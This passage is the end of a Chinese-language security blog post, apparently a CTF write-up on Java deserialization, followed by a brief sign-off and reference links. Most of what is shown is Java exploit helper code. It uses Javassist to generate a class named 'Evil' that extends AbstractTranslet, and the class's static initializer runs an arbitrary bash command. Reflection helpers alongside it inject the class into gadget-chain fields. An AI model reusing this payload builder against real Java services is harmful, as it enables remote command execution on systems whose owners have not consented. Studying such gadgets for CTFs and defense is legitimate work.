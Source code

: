 ```

    public static CtClass payload(String string) throws Exception {
        String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload = classPool.makeClass("Evil");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody(
                "java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/bash\", \"-c\",\"" + string + "\"});");
        return payload;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);
            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

### [结语](https://tttang.com/archive/1701/#toc__8)

那么，就写到这里吧，再写，就不礼貌辣

### [参考文章](https://tttang.com/archive/1701/#toc__9)

http://miku233.viewofthai.link/2022/05/29/buggyLoader/

https://su18.org/

[https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BROME/](https://longlone.top/安全/java/java反序列化/反序列化篇之ROME/)

https://github.com/H3rmesk1t/Learning_summary/tree/main/WebSec/JAVA